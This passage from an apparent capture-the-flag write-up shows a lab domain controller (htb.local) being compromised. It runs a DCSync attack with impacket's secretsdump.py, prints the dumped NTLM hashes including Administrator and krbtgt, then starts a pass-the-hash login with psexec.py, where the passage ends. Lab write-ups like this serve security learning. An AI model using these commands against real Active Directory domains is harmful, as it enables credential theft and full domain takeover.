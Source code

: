 ## DCSync

Our right where sufficient to escalate to get the ` Replication-Get-Changes-All`
privileges on the domain. As mention by `ntlmrelayx` we can now use a
[DCSync](https://adsecurity.org/?p=1729) attack on the domain using
[impacket's secretdump.py](https://github.com/SecureAuthCorp/impacket/) to get
the users' passwords hashes.

    :::text
    python secretsdump.py 'htb.local/created_01:M<redacted>@10.10.10.161'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    <SNIP>

## PTH

We can then use the [Path the hash](http://blog.gentilkiwi.com/tag/pass-the-hash)
technique with
[impacket's psexec.py](https://github.com/SecureAuthCorp/impacket/) to login on
the Domain Controller as administrator and get the flag.

    :::text
    python psexec.py htb.local/Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation

